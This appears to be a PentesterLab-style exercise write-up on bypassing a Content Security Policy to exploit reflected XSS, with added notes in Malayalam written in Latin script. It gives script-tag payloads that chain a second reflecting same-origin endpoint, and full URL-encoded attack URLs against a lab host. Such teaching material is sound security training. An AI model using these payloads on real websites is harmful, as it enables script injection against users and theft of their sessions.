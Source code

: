 ## Introduction
-->This exercise details the exploitation of a XSS in a simple web application that uses Content Security Policy
-->It was inspired by the following report on Hackerone: [https://hackerone.com/reports/153666](https://hackerone.com/reports/153666)

## Content Security Policy
-->Content Security Policy (CSP) is a way to limit the impact of a Cross-Site Scripting (amongst other things).
-->The CSP policy can be set via an HTTP header in the response or via a meta tag. Here a header is used.

## Detection of the vulnerability
-->The XSS in this page is trivial to find. However, if you use a classic payload:
```html
<script>alert(1)</script>
```
-->You will see a message in the console of your browser:
```
	Refused to execute inline script because it violates the following Content Security Policy directive: 
	"script-src 'self' https://pentesterlab.com". Either the 'unsafe-inline' keyword, a hash 
	('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable 
	inline execution.
```

## Bypassing CSP
-->You can quickly get access to the CSP policy by using curl (or a proxy):
```http
	$  curl http:/server/?name=hacker -o /dev/null --dump-header - 
	 
	HTTP/1.1 200 OK
	Server: nginx/1.6.2
	Date: Thu, 23 Aug 2018 08:04:47 GMT
	Content-Type: text/html; charset=UTF-8
	Content-Length: 1224
	Connection: keep-alive
	X-Powered-By: PHP/5.6.29-0+deb8u1
	X-XSS-Protection: 0
	Content-Security-Policy: default-src 'self'; script-src 'self' https://pentesterlab.com
	Vary: Accept-Encoding
```
-->The current policy limits the src of scripts to the server itself, via `'self'` and to `https://pentesterlab.com` (to provide analytics):
```bash
script-src 'self' https://pentesterlab.com
```
-->Since `unsafe-inline` is not enabled we cannot use a simple payload like `<script>[CODE]</script>`.
-->However, what we can do is try to find another vulnerable page on the server and use it to get our payload in the website. Then we can load that vulnerable page using a `<script>` tag:
```javascript
?name=<script src="/vulnerable/page.php?parameter=PAYLOAD"></script>
```
-->Since the CSP policy allows us to load scripts hosted on the same server, this method will allow use to run arbitrary JavaScript and get an `alert` box.

## Conclusion
-->This exercise showed you a method of bypassing a simple CSP policy in order to run JavaScript.
-->It's a simple introduction, but it helps us establish some foundational understanding required for the following exercises on CSP.

# Video Explanation
-->lab open aakuka apol namal ee url il ethum ->http://ptl-ae59b5f6-80b47904.libcurl.so/?name=hacker
-->ivide ulla name paramter vulnerable aan. njan `<marquee>joseph michal</marquee>` itt test chythapol aavunund
-->but njan `<script>alert(9)</script>` itt test chythapol xss trigger ayila
-->html injection aakunund.but xss akunila.so ini page il nokiyal kanam `Demo countdown` enn kanikunu.ie, xss chythapol kanikunathan
-->so ath view-source il poi nokuka :
```html
<script src="http://ptl-ae59b5f6-80b47904.libcurl.so/js/countdown.php?end=2534926825"></script>
<div class="row">
  <div class="col-lg-12">
    <h1>Content Security Policy</h1>
     ......   
```
-->so namal ee script il kanikuna src il pokuka ->http://ptl-ae59b5f6-80b47904.libcurl.so/js/countdown.php?end=2534926825  apol entho contents kanikum.so ee paramter il namuk test chyam. ivide =2534926825josuxxx enn koduth send chyumbol namuk ath page il reflect chyunath kanam.so avide namal xss test chyuka
-->ivide namal request ile resposne ile header il nokiyal kanam content security policy use chyunund :
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://pentesterlab.com
```
-->ithil ninum manasilakam athayath script src koduthal namuk javscript run chyikamen.so namal mate script ile src il ninum undakiya payload euthit src= yil aki send chyumbol namuk xss trigger chyunund ie,
->`http://ptl-ae59b5f6-80b47904.libcurl.so/?name=%3Cscript%20src=http://ptl-ae59b5f6-80b47904.libcurl.so/js/countdown.php?end=2534926825);alert(0);//%3E%3C/script%3E`
-->ivide `<script src=content security policyi yile script il ninum undakiuya xss payload ivide kodukanam` enit namal `</script>` koduth send chyumbol namuk xss trigger chyunund ok
-->ivide main aayi nokendath enthenal CSP aan. csp page il js allow chyunila. but csp header il paranja pole chythal matharam js allow chyu.so athin anusarichan namal xss chythath ok 
http://ptl-ae59b5f6-80b47904.libcurl.so/?name=%3Cscript%20src=http://ptl-ae59b5f6-80b47904.libcurl.so/js/countdown.php?end=2534926825);alert('66d1486a-6571-4069-a67b-c4a70a99798d');//%3E%3C/script%3E